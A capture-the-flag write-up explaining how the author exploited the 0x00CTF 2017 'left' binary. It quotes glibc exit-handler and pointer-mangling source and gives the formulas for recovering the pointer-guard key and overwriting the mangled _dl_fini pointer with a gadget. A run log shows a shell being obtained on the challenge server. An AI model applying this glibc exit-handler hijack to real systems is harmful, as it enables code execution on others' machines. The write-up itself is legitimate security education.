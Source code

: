 # left - 0x00CTF 2017

First of all execute `file` command on the binary (the libc is already provided by the organizers of the CTF)
```bash
$ file guessme
guessme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92b1d84ee22b7c92dc80fac971bdc7f6cd0e3672, stripped
```

And [checksec](https://github.com/slimm609/checksec.sh)
```bash
$ ./checksec --file ../pwning/0x00CTF/left/left
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	../pwning/0x00CTF/left/left
```

This was a 250 pts pwnable challange, the hardest of the competition. Unfortunately i solved this challenge only two hours later the end of the competition. The challange was funny, in a nutshell:
1. The binary prints the address of `printf` function
2. We can leak 8 bytes from any memory location
3. We can write 8 bytes wherever we want
4. The binary calls `exit`.

![image](binary.png)

I tried really a lot of exploits:
1. overwrite an entry in the got. Nope, full RELRO :P
2. use the `atexit` pointers. Nope, read only
3. use the `__free_hook` pointers. The `exit` function in certain cases calls the `free`, so i tried for few hours to follow this strategy but without success.

I was becoming crazy, but with my teammate @[ret2libc](https://github.com/ret2libc) we had a look at the libc code and found another way to exploit it. And i'll try to explain now what happened.

The `exit` function calls `__run_exit_handlers` function, and this is its implementation

```C
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
	{
	  const struct exit_function *const f =
	    &cur->fns[--cur->idx];
	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      onfct (status, f->func.on.arg);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      atfct ();
	      break;
	    case ef_cxa:
	      cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      cxafct (f->func.cxa.arg, status);
	      break;
	    }
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

A parameter of the `__run_exit_handlers` is a `struct exit_function_list **listp`. The libc initializes a static struct `initial`

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

then the libc uses these two functions to add an internal `atexit` function to be called when the program ends

```C
int
attribute_hidden
__internal_atexit (void (*func) (void *), void *arg, void *d,
		   struct exit_function_list **listp)
{
  struct exit_function *new = __new_exitfn (listp);

  if (new == NULL)
    return -1;

#ifdef PTR_MANGLE
  PTR_MANGLE (func);
#endif
  new->func.cxa.fn = (void (*) (void *, int)) func;
  new->func.cxa.arg = arg;
  new->func.cxa.dso_handle = d;
  atomic_write_barrier ();
  new->flavor = ef_cxa;
  return 0;
}

int
__cxa_atexit (void (*func) (void *), void *arg, void *d)
{
  return __internal_atexit (func, arg, d, &__exit_funcs);
}
libc_hidden_def (__cxa_atexit)
```
The static struct `__exit_funcs` (i.e. `initial`) is extremely important, because if we can write an address of a function to be called here we would win :)
Note that the pointer added to the list is encrypted using a `ror` and `xor` with a random key. The value is then decrypted at run time.
This is the implementation of `PTR_MANGLE` and `PTR_DEMANGLE`

```C
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xorl %gs:POINTER_GUARD, reg;		      \
				roll $9, reg
#  define PTR_DEMANGLE(reg)	rorl $9, reg;				      \
				xorl %gs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xorl %%gs:%c2, %0\n"		      \
				     "roll $9, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("rorl $9, %0\n"			      \
				     "xorl %%gs:%c2, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
# endif
```

Now have a look at the `exit` implementation

```C

void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true);
}
libc_hidden_def (exit)
```

It uses `&__exit_funcs`, i.e `&initial`! In the file `libc-start.c` you can figure out that it uses the function `__cxa_atexit` to add a function: `_dl_fini`:

```C
/* Register the destructor of the dynamic linker if there is any.  */
  if (__glibc_likely (rtld_fini != NULL))
    __cxa_atexit ((void (*) (void *)) rtld_fini, NULL, NULL);

#ifndef SHARED
  /* Call the initializer of the libc.  This is only needed here if we
     are compiling for the static library in which case we haven't
     run the constructors in `_dl_start_user'.  */
  __libc_init_first (argc, argv, __environ);

  /* Register the destructor of the program, if any.  */
  if (fini)
    __cxa_atexit ((void (*) (void *)) fini, NULL, NULL);
```

What we can do is:
1. We have the leak of the libc location. We can find the address of the magic gadget, the address of `initial` structure and everithing we need
2. leak the value of the encrypted pointer `_dl_fini_enc`
3. get the secret key (working with 64 bits) with  `rol(_dl_fini_enc, 0x11) ^ _dl_fini_address`.
4. overwrite the pointer `_dl_fini_enc` with the encrypted magic gadget address calculated with `rol((magic_addr) ^ (key), 0x11, 64 )`
5. WIN!

```bash
$ python exploit.py 159.203.116.12 7777
[+] libc address: 0x7fa70c2f0000
[+] key: 0xab85f3272361ce8eL
[+] writing at: 0x7fa70c6b5c58
[+] write value: 0x19005ea539c9570bL
[+] interactive

id
uid=1000(left) gid=1000(left) groups=1000(left)
cat /home/left/flag.txt
0x00CTF{exPL0it1ng__EXit_FUNkz_LikE_4b0sZ!}
```

Find the binary [here](left) (and the related [libc](libc-2.23.so)), the full exploit [here](exploit.py)! I really enjoyed this challenge!
